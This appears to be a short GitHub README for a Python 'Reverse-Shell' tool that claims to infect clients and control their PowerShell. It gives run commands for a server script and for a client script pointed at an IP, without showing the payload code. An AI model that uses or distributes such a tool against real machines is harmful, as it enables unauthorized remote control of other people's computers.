 # Reverse-Shell
Infects clients and controls their powershell with Python.
To de instalation you need has a server (any operative system) and 
execute the python script.
#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
python3 client.py {ip}
```
